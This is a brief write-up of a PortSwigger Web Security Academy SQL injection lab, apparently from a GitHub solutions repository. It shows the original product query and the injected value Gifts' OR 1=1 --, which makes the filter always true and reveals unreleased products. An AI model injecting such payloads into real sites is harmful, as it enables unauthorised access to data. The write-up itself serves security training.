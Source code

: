 Lab Description :

<img width="864" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/cc015a63-65a9-4c88-994e-cb494d9348a1">


Solution :

*Query*

```SELECT * FROM products WHERE category = 'Gifts' AND released = 1```

To view all the products (both released and not released) , we include Gifts' OR 1=1 -- so that it the condition evaluates to TRUE & displayed all the gifts.

```SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1```

<img width="616" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/e7d4b6bf-7780-4535-a11c-f5e200697a0e">
